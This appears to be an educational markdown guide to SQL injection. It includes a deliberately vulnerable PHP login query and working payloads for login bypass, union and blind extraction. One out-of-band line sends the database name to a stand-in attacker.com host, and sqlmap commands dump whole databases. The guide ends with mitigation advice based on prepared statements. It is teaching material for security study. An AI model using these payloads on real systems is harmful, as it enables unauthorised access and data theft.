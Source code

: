 # SQL Injection Guide

## 1. What is SQL Injection & Its Impact?

### Definition
SQL Injection is a web security vulnerability that allows an attacker to inject malicious SQL queries into an SQL statement within a vulnerable web application. This occurs when user inputs are not properly validated, enabling the attacker to manipulate the database.

### Impact
A successful SQL Injection attack can lead to:
- **Authentication Bypass**: Access user accounts without valid credentials.
- **Data Exposure**: Leak sensitive data such as user information or payment details.
- **Data Manipulation**: Delete, modify, or steal data from the database.

---

## 2. SQL Basics

### What is SQL?
SQL (Structured Query Language) is used to interact with relational database management systems (DBMS) for creating, modifying, and querying data.

### Common DBMS Examples
- MySQL
- SQLite
- PostgreSQL
- Oracle
- Microsoft SQL Server (MSSQL)

### Key SQL Statements
| Statement   | Description                                  |
|------------|----------------------------------------------|
| SELECT     | Retrieves records from one or more tables.   |
| INSERT     | Adds one or more records to a table.         |
| UPDATE     | Modifies existing records in a table.        |
| DELETE     | Removes one or more records from a table.    |
| ORDER BY   | Sorts records in the result set.             |
| LIMIT      | Restricts the number of returned records.    |
| WHERE      | Filters records based on specified conditions.|

### SQL Comments
Comments can be used to bypass parts of queries:
- MySQL: `#comment`, `-- comment`, `/* comment */`
- PostgreSQL: `-- comment`, `/* comment */`
- Oracle: `-- comment`
- SQLite: `-- comment`, `/* comment */`
- MSSQL: `-- comment`, `/* comment */`

### Vulnerable PHP Example
```php
$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($connection, $query);
```
An attacker can manipulate the query via crafted input.

---

## 3. SQL Injection Techniques

### Types:
- **In-band SQLi**
- **Blind SQLi**
- **Out-of-band SQLi**

### 3.1. In-band SQLi

#### Error-based SQLi
Trigger database errors to reveal DBMS or query structure.
- Input example: `'`

##### Practical Login Bypass:
**Username:** `admin' OR '1'='1' --`
**Password:** Anything

Query becomes:
```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'
```
**Effect:** Logs in as admin.

#### Union-based SQLi
Combine malicious results using `UNION`.

1. **Find Number of Columns:**
```sql
' ORDER BY 1 --
' ORDER BY 2 --
```
Stop when an error occurs.

2. **Find Injectable Columns:**
```sql
' UNION SELECT 'a', NULL --
' UNION SELECT NULL, 'a' --
```

3. **Extract Data:**
```sql
' UNION SELECT database(), version() --
```

### 3.2. Blind SQLi

#### Boolean-based SQLi
```sql
' AND 1=1 --  → True response
' AND 1=2 --  → False response
```

To extract data:
```sql
' AND SUBSTRING(database(),1,1) = 'm' --
```

#### Time-based SQLi
```sql
' AND IF(1=1, SLEEP(5), 0) --
```

Data extraction:
```sql
' AND IF(SUBSTRING(database(),1,1)='m', SLEEP(5), 0) --
```

### 3.3. Out-of-band SQLi
Exploits database features to send DNS or HTTP requests:
```sql
SELECT LOAD_FILE(CONCAT('\\',database(),'.attacker.com\test'));
```

---

## 4. Dumping Data Using sqlmap

`sqlmap` is an open-source tool for detecting and exploiting SQL Injection.

### Basic Usage
```bash
python sqlmap.py -u "http://example.com/?id=1"
```

### Steps:
1. **Check for Vulnerability:**
```bash
sqlmap -u "http://example.com/?id=1"
```

2. **Enumerate Databases:**
```bash
sqlmap --dbms=mysql -u "http://example.com/?id=1" --dbs
```

3. **Enumerate Tables:**
```bash
sqlmap -u "http://example.com/?id=1" -D "database_name" --tables
```

4. **Dump Data:**
```bash
sqlmap -u "http://example.com/?id=1" -D "database_name" -T "table_name" --dump
```

---

## 5. Mitigation

### How to Prevent SQL Injection:
- **Input Validation:** Use whitelisting for expected inputs.
- **Prepared Statements:**
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```
- **Least Privilege:** Restrict DB account permissions.
- **Use ORM:** Tools like Django ORM or Laravel Eloquent help mitigate SQLi.
- **Error Handling:** Do not expose SQL errors to users.

---

## 6. Tools

- **sqlmap**: Automated SQL Injection testing tool.
- **Burp Suite**: Intercepts and modifies HTTP requests.
- **Havij**: (Less used) GUI-based SQLi tool.

---

End of guide.


